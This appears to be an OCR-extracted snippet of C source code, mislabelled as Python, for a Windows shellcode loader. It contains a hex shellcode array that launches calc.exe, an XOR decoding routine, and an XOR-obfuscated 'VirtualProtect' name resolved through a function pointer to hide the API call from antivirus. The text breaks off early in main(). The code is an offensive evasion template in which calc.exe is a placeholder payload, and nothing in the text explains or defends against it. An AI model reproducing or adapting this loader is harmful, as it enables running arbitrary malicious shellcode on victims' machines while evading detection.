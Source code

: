 ```PYTHON
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char calc_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int calc_len = sizeof(calc_payload);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
	int j;
	
	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

// Variable that will store the address of virtualprotect in the IAT dynamically
BOOL (__stdcall * pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);
// We can also call WINAPI instead __stdcall, it is a call convention to the Windows API.
// This means that pVirtualProtect can point to a function that has the same convention, and the same type.
//BOOL(WINAPI * pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	char key[] = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
	char sVirtualProtect[] = {0x17, 0x2B, 0x31, 0x30, 0x30, 0x27, 0x2B, 0x18, 0x3B, 0x25, 0x3F, 0x29, 0x2E, 0x3A};

```
